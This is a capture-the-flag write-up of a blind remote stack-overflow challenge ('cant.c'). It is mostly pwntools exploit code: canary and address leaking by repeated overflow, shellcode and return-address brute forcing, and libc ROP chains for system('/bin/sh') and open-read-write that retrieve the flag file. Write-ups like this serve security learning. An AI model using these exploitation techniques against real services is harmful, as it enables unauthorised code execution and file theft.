


# pwn / cant.c

by *StateOfLimbo* for *coldboots* 

---

I didn't solve this challenge during the CTF. Actually I didn't have time to look at it at all, and it only got 1 solve. I decided to try to solve it afterwards as an exercise before it got spoiled by getting information from the player who solved it or the challenge author.


## Challenge Description


We all love blind pwn.

---

We are given a Dockerfile and an IP/Port to connect to. No source, no binary.. 

The important parts from the Dockerfile is:
``` 
FROM ubuntu:22.04

COPY flag.txt /opt/flag
```

## Recon

I generate a new pwntools script, and start exploring.

```
[+] Opening connection to io5.ept.gg on port 32684: Done
[*] Switching to interactive mode
[*] connection received on socket 4
[*] echo socket server v0.2 beta GOLD ready.
> $ input laks en to tre
input laks en to tre
[*] Got EOF while reading in interactive
$  
```

Seems like a service that echo what we type. Then it exits.

I tried looking for printf vuln.

```
[*] echo socket server v0.2 beta GOLD ready.
> $ %p.%p.%p.%p.%p.%p.%p
%p.%p.%p.%p.%p.%p.%p
``` 

Nope, that's not it. How about buffer overflow?
I send b'A'*256

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: terminated
```

It complains about smashing the stack.. meaning that we have a buffer overflow situation, and have overwritten the stack canary.
By slightly reducing the number of AAAs, I can deduce that I can write 0x48 bytes before overwriting the canary. Also the first (lsb) byte of the canary is always a null byte which terminates our echo output. Luckily by overwriting the null byte the rest of the canary is leaked.

```python
io.sendafter(b'> ', b'A'*0x49)
```
```
[DEBUG] Received 0x82 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  41 0a 59 15  bd a0 39 f6  │AAAA│AAAA│A·Y·│··9·│
                                           ^^^^^^^^^^^^^^^^^^^^^
    00000050  d0 aa 8b 9b  fd 7f 2a 2a  2a 20 73 74  61 63 6b 20  │····│··**│* st│ack │
              ^^^^^^^^^^^^^^^^^^
    00000060  73 6d 61 73  68 69 6e 67  20 64 65 74  65 63 74 65  │smas│hing│ det│ecte│
    00000070  64 20 2a 2a  2a 3a 20 74  65 72 6d 69  6e 61 74 65  │d **│*: t│ermi│nate│
    00000080  64 0a                                               │d·│
``` 

The last 7 bytes of the canary @ 0x49 and we also have an stack base pointer leak @0x50.
SWEET!

Running the script a second time shows that the canary and stack address stay the same. This leads me to believe that this is a service that is running in a background and spawning new processes to answer network connections. In any case this means that we can leak more of the stack by repeatedly connecting and sending a gradually increasing overflow. So I wrote a script for this, and to parse the results into usable addresses.

After some trial and error I found a suitable location to stop hammering the service for more stack.
I'll also cache the results so I don't have to do this every time.

```python
def dumpstack(Start, Iterations):
    idx = 0x49 + Start
    data = b'\0'
    for _ in range(Iterations):
        if len(data) >= 27*8:   # added after trial and error
            break
        try:
            sleep(0.5)
            io = start()
            io.sendafter(b'> ', b'A'*idx)
            io.recv(idx)
            leak = io.recvuntil(b'*** stack', drop=True)
            if len(leak) == 0:
                idx += 1
                data += b'\0'
            else:
                idx += len(leak)
                data += leak
            print(data.hex())
            io.close()
        except:
            io.close()
    return idx, data

stackdump = b''

if len(stackdump) == 0:
    idx, stackdump = dumpstack(0, )

stack = [
    hex(int.from_bytes(bytes.fromhex(stackdump[i:i+16].decode('ascii')).rjust(8,b'\0'), 'little'))
    for i in range(0,len(stackdump),16)]

pprint(stack)
```

Output of the stack:

```
['0xf639a0bd15599900',  # canary
 '0x7ffd9b8baad0',      # stored RBP     - stack address
 '0x56380948f65c',      # Return pointer - executable .text
 '0x7ffd9b8bab30',
 '0x400000000',
 '0x7ffd9b8bab50',
 '0x56380948f53a',
 '0x7ffd9b8bac68',
 '0x200000000',
 '0x0',
 '0x1000000000',
 '0x300000400',
 '0x4',
 '0x40002',
 '0x0',
 '0x9602000a14b30002',
 '0x0',
 '0x312e322e302e3031',
 '0x3035',
 '0x0',
 '0xf639a0bd15599900',
 '0x2',
 '0x7f41fb0cad90',      # <__libc_start_call_main+128>
 '0x0',
 '0x56380948f3a9',      
 '0x200000000',
 '0x7ffd9b8bac68']
```

I've analysed this in comparison to the stack of other binaries run under ubuntu:22.04 with the same libc, and added comments of the important findings.

with the libc address identified, we can calculate the libc base address, but we have not been given the any libc.so.6 file in the challenge. Luckily we can get it from ubuntu 22.04. From another challenge using the same libc, or copying it from a ubuntu 22.04 docker container.

```
[*] canary 0xf639a0bd15599900
[*] rbp 0x7ffd9b8baad0
[*] exe_base 0x56380948e000
[*] libs_start_call_main 0x7f41fb0cad90
...
[*] libc base @ 0x7f41fb0a1000
```

## Executable stack? - NO

So the first thing I tried was shellcode on the stack, and gradually searching backward for the buffer.
This didn't work out so well.. here's the script anyway:

```python

def shellcodeIt(Iterations):
    shellcode = asm(shellcraft.sh())
    for i in range(Iterations):
        target = rbp - 0x48 - 8*i
        payload = flat({ 0: shellcode, 0x48: p64(canary), 0x50: p64(rbp), 0x58: p64(target)})
        try:
            io = start()
            io.sendlineafter(b'> ', payload)
            io.interactive()
            io.close()
        except:
            io.close()
```

## Searching for a WIN function? - FAIL

I tried searching for a win function relative to the RIP we found on the stack. Got the program to behave in different ways, printing out various strings, leaking addresses, looping to main and printing socket errors. But no flag.

```python
def ret2code(Start, Iterations):
    for i in range(Iterations):
        try:
            io = start()
            target = 0x5633e079165c-Start-i
            payload = flat({ 0x48: p64(canary), 0x50: p64(rbp), 0x58: p64(target)})
            io.sendlineafter(b'> ', payload)
            io.interactive();
            io.close()
        except:
            io.close()
```

## How about a ROP chain

It was at this point I actually copied in the libc from ubuntu 22.04, calculated the libc address base and trying different rop strategies in libc.

## ROP 2 system("bin/sh") - Nope! wth?

So I did the obvious and tried to call system("bin/sh").

```
rop = ROP(libc)
rop.call(rop.ret)
rop.system(next(libc.search(b'/bin/sh\0')))

io = start()
io.sendafter(b'> ', flat({ 0x48: p64(canary), 0x50: p64(rbp), 0x58: rop.chain()}))
io.interactive();
```
Output:
```
Failed to accept connection.: Socket operation on non-socket
```

Damn.. 

Got the same when trying puts:

```
rop.call(rop.ret)
rop.puts(rbp)
```

Tried `write`, and got some output at last when using fd=4. used the leaked rbp minus an offset to try to find the input buffer. After a couple of attempts I found this at offset -0x70
(looking for the cyclic pattern "aaaabaaacaaa")

```
rop = ROP(libc)
rop.write(4, rbp-0x70, 200)

io = start()
io.sendafter(b'> ', flat({ 0x48: p64(canary), 0x50: p64(rbp), 0x58: rop.chain()}))
io.recvuntil(b'qaaaraaa')  # remove the first echo of the buffer
io.interactive();
```

Output:
```
[*] Switching to interactive mode
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaa\x00Y\x15\xa09\xf6Ъ\x8b\x9b\xfd\x97\x1cA\x7f\x00\xc8\x00\x00\x00eaaafaaaQ\xce
\xfbA`\xaa\x8b\x9b\xfd\xe5\xb3\x0cA\x7f\x00\x04\x00\x00\x00 Z\x1b\xfbA\x00\x00\x10\x00\x00\x00\x03\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xcc
\x00\x96
```

## Leak the binary - because Why not!

At one point I deduce the start of the executable address space from the leaked RIP, and downloaded the binary piece by piece in 0x800 byte chunks

```python
rop.write(4,exe_base, 0x100)
```
Elf header:
```
\x7fELF\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00\x00\x00\x00\x00=\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xd8\x00\x00\x0\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x03\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
``` 

Here's some disassembly. 






This didn't give me much, unfortunately.

I also found a string I used for dhe `%d` at `exe_base + 0x2080`


## The actual solve

I finally tried to do a ropchain with open - read - write .
But I didn't know which FD would be returned from open(), and I didn't assume it would be on FD 3, So I wrote a chain to find out.

using a gadget with "xcgh eax, edx" to put the returned FD into the right register for `dprintf`, and the string with `%d` from the leaked executable I got the following chain:

```python
rop.open(buffer,0)
rop.raw(libc.address + 0x0cea5a)  # 0x00000000000cea5a : xchg eax, edx ; ret
rop.rdi = 4
rop.rsi = exe_base+0x2080
rop.call(rop.ret)
rop.call(libc.sym.dprintf)

io = start()
io.sendafter(b'> ', flat({ 0: b'/opt/flag\0', 0x48: p64(canary), 0x50: p64(rbp), 0x58: rop.chain()}))
```

Output:
```
/opt/flag[*] connection received on socket 3
```

I should have just assumed ... At least I got to learn about `dprintf` which does printf formatting to a file descriptor. And got to practive searching for the proper xchg-gadget.. Good times!

## The actual actual solve continues

So finally let's just do open - read - write:

```python
rop.open(buffer,0)
rop.read(3, buffer, 34)
rop.write(4, buffer, 34)

io = start()
io.sendafter(b'> ', flat({ 0: b'/opt/flag\0', 0x48: p64(canary), 0x50: p64(rbp), 0x58: rop.chain()}))
io.interactive();
```

Output:
```
[*] Switching to interactive mode
[DEBUG] Received 0x2b bytes:
    b'/opt/flagEPT{1_gu3ss_y0u_c4n_s33_4ft3r_4ll}'
/opt/flagEPT{1_gu3ss_y0u_c4n_s33_4ft3r_4ll}[*] Got EOF while reading in interactive
$  
``` 

The flag is :tada: :checkered_flag: EPT{1_gu3ss_y0u_c4n_s33_4ft3r_4ll} :checkered_flag: :tada:


